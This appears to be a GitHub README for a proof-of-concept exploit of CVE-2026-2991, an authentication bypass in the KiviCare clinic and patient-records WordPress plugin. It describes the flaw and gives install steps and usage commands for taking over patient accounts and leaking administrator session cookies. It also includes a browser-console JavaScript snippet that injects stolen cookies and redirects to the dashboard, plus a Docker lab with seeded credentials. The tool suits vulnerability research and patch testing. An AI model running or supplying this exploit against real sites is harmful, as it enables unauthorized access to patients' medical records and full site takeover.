


<h1 align="center">KiviCare <= 4.1.2 - Authentication Bypass (CVE-2026-2991) PoC</h1>

<p align="center">
    
    <a href="https://www.python.org/">
      
    </a>
</p>

## 📜 Description

CVE-2026-2991 is an authentication bypass vulnerability in the **KiviCare – Clinic & Patient Management System (EHR)** WordPress plugin affecting all versions up to and including **4.1.2**.

The plugin exposes a public REST endpoint at `/wp-json/kivicare/v1/auth/patient/social-login` that authenticates users via social login. The `patientSocialLogin()` function accepts an email address and an access token but **never validates the token against the claimed social provider**. Any unauthenticated attacker can log in as any registered patient by supplying only their email and an arbitrary string as the token.

Additionally, WordPress authentication cookies are issued **before** the patient-role check is enforced. This means that for non-patient accounts (including administrators), the response returns HTTP 403 but still includes valid `Set-Cookie` headers — leaking a replayable admin session to the attacker.

**Affected versions:** kivicare-clinic-management-system <= 4.1.2

## ✨ Features

- **Unauthenticated** — No credentials or prior session required
- **Patient account takeover** — Log in as any registered patient using only their email
- **Admin session leak** — Extracts valid admin auth cookies from the 403 response for non-patient accounts
- **Browser console snippet** — Outputs ready-to-paste JavaScript to inject cookies and redirect directly to the dashboard

<!-- BEGIN:PYTHON -->
## OSX/Linux
```bash
git clone https://github.com/joshuavanderpoll/CVE-2026-2991.git
cd CVE-2026-2991
python3 -m venv .venv
source .venv/bin/activate
pip3 install -r requirements.txt
```

## Windows
```bash
git clone https://github.com/joshuavanderpoll/CVE-2026-2991.git
cd CVE-2026-2991
python3 -m venv .venv
.venv\Scripts\activate
pip3 install -r requirements.txt
```
<!-- END:PYTHON -->

## ⚙️ Usage

```
python3 CVE-2026-2991.py --url <TARGET_URL> --email <TARGET_EMAIL> [--login-type <google|apple>] [--timeout <SECONDS>] [--useragent <UA>]
```

---

### Patient account takeover

Bypass authentication for a registered patient. The script returns their full session, including a nonce and replayable cookies.

```bash
python3 CVE-2026-2991.py --url 'https://target.com' --email 'patient@target.com'
```



---

### Admin session leak (non-patient account)

Supply the email of any non-patient user (e.g. an administrator). The endpoint issues valid auth cookies before the role check and returns 403 — those cookies are extracted and printed.

```bash
python3 CVE-2026-2991.py  --url http://localhost:8080/ --email 'admin@example.com'
```



---

### Browser console login

After a successful run the script prints a JavaScript snippet. Open the target site in your browser, paste the snippet into the browser console (`F12 → Console`), and press Enter — it sets the stolen cookies and navigates you to the dashboard automatically.

```js
(() => {
  document.cookie = "wordpress_<hash>=<value>; path=/";
  document.cookie = "wordpress_logged_in_<hash>=<value>; path=/";
  window.location.href = "http://target.com/kivicare-patient-dashboard";
})();
```

## 🐋 Docker PoC

A self-contained Docker Compose environment with the vulnerable plugin pre-installed and seeded with realistic test data.
Check [DOCKER.md](/docker/DOCKER.md) for more details.

```bash
cd docker/
docker compose up
```

The lab seeds the following accounts on first boot:

| Role      | Username        | Email                            | Password     |
|-----------|-----------------|----------------------------------|--------------|
| Admin     | admin           | admin@example.com                | admin        |
| Doctor    | dr.harris       | dr.harris@greenfield.test        | Doctor@123   |
| Doctor    | dr.chen         | dr.chen@greenfield.test          | Doctor@123   |
| Doctor    | dr.okonkwo      | dr.okonkwo@greenfield.test       | Doctor@123   |
| Patient   | james.ford      | james.ford@patients.test         | Patient@123  |
| Patient   | sofia.reyes     | sofia.reyes@patients.test        | Patient@123  |
| Patient   | oliver.knight   | oliver.knight@patients.test      | Patient@123  |
| Patient   | amara.diallo    | amara.diallo@patients.test       | Patient@123  |
| Patient   | dan.walsh       | dan.walsh@patients.test          | Patient@123  |

```bash
# Bypass a patient
python3 CVE-2026-2991.py --url 'http://localhost:8080' --email 'sofia.reyes@patients.test'

# Leak admin session cookies
python3 CVE-2026-2991.py --url 'http://localhost:8080' --email 'admin@example.com'
```

## 🕵🏼 References

- [KiviCare — WordPress Plugin](https://wordpress.org/plugins/kivicare-clinic-management-system/)
- [NVD — CVE-2026-2991](https://nvd.nist.gov/vuln/detail/CVE-2026-2991)
- [WordFence](https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/kivicare-clinic-management-system/)
- [HackIndex.io — CVE-2026-2991](https://hackindex.io/vulnerabilities/CVE-2026-2991)

## 📢 Disclaimer

This tool is provided for educational and research purposes only. The creator assumes no responsibility for any misuse or damage caused by this tool.
